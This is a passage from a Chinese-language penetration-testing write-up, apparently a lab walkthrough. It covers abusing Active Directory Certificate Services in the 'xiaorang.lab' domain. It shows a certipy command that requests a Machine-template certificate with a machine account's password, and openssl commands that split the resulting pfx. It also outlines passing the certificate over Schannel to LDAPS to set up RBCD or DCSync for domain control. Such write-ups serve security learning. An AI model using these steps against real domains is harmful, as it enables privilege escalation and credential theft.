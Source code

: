 成功添加，说明漏洞存在。

### 申请证书模板

要尝试两次才能成功

```plain
proxychains certipy req -u 'TEST2$@xiaorang.lab' -p 'P@ssw0rd' -ca 'xiaorang-XR-CA-CA' -target 172.22.15.18 -template 'Machine'
```

[![](assets/1707954847-15a121421ce1f4a6a7fa86e5ad22d3be.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240209165530-fa6135b6-c728-1.png)

接下来按照正常流程走会出错

[![](assets/1707954847-e3a11874278dc7c042d87b20f4dc9619.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240209165535-fd5f44c4-c728-1.png)

这里的话看大师傅们说是因为`域控制器没有安装用于智能卡身份验证的证书`，解决办法的话就是尝试 Schannel，通过 Schannel 将证书传递到 LDAPS, 修改 LDAP 配置 (例如配置 RBCD / DCSync), 进而获得域控权限。

### 尝试 Schannel

首先将 pfx 导出为.key 和.crt 两个文件 (空密码)

```plain
openssl pkcs12 -in xr-dc01.pfx -nodes -out test.pem
openssl rsa -in test.pem -out test.key
openssl x509 -in test.pem -out test.crt
```
